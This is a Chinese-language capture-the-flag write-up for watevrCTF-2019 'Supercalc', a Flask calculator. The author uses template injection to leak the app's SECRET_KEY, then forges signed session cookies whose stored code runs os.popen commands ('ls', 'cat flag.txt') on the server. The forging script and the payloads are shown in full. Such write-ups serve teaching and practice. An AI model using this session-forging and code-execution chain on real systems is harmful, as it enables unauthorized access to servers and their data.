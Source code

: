 ### [watevrCTF-2019]Supercalc

> session

----

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241012173028599.png" style="zoom:50%;" />



挺好看的一个界面，只有一个输入框，看了一下是python的web应用,并且还在cookie中发现session类型

```python
import base64
import json

def decode_session(session_data):
    try:
        # 分割session数据
        parts = session_data.split('.')
        if len(parts) != 3:
            raise ValueError("Session data should have three parts separated by dots.")

        # 尝试Base64解码第一个部分
        decoded_data = base64.urlsafe_b64decode(parts[0])
        print("Base64 Decoded Data:", decoded_data)

        # 尝试解析JSON
        json_data = json.loads(decoded_data.decode('utf-8'))
        print("Parsed JSON Data:", json_data)
    except Exception as e:
        print("Error decoding or parsing session data:", e)

# 示例session数据
session_data = "eyJoaXN0b3J5IjpbeyJjb2RlIjoiMSArIDEifV19.X98yeg.YggVMibcD6Bh8ZqORv4BMRBfNS0"

# 解码session数据
decode_session(session_data)

"""
Base64 Decoded Data: b'{"history":[{"code":"1 + 1"}]}'
Parsed JSON Data: {'history': [{'code': '1 + 1'}]}
"""
```

我们接下来就有思路了，寻找密钥构造

![image-20241012172851084](https://gitee.com/bx33661/image/raw/master/path/image-20241012172851084.png)

尝试报错发现flask-debug，

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241012173454124.png" alt="image-20241012173454124" style="zoom:80%;" />

尝试`{{7*7}}`，但是页面报错，所以我们尝试构造`1+2#{{7*7}}`,成功了

![image-20241012173708520](https://gitee.com/bx33661/image/raw/master/path/image-20241012173708520.png)

但是我们接着尝试其他操作的时候报错了，应该是存在过滤，我们尝试访问{{config}}

![image-20241012173853552](https://gitee.com/bx33661/image/raw/master/path/image-20241012173853552.png)

这个被实体编码了，我们尝试解码，这里我才用python脚本：

```python
import html

def decode_html_entities(encoded_string):
    return html.unescape(encoded_string)

encoded_string = " {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;cded826a1e89925035cc05f0907855f7&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;"
decoded_string = decode_html_entities(encoded_string)

print("Encoded String:", encoded_string)
print("---------------------------------------------------------------------------------")
print("Decoded String:", decoded_string)
```



解码之后：

```python
{'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```

我们发现密钥：`cded826a1e89925035cc05f0907855f7`,接着我们就可以构造session了

这里采用flask-session那个脚本,还可以用下面这个简单点的:

```python
from flask.sessions import SecureCookieSessionInterface
secret_key = "cded826a1e89925035cc05f0907855f7"
class FakeApp:
    secret_key = secret_key


fake_app = FakeApp()
session_interface = SecureCookieSessionInterface()
serializer = session_interface.get_signing_serializer(fake_app)
payload = serializer.dumps(
    {"history": [{"code": '__import__("os").popen("ls ").read()'}]}
)
print(payload)
```

Payload:

![image-20241012175748887](https://gitee.com/bx33661/image/raw/master/path/image-20241012175748887.png)

```python
# {"history": [{"code": '__import__("os").popen("ls ").read()'}]}
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwibHMgXCIpLnJlYWQoKSJ9XX0

#发现flag.txt
#{"history": [{"code": '__import__("os").popen("cat flag.txt").read()'}]}
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.ZwpHng.iAZ3QSGmOtC826N897VmB-LeHOA
```

![image-20241012175606493](https://gitee.com/bx33661/image/raw/master/path/image-20241012175606493.png)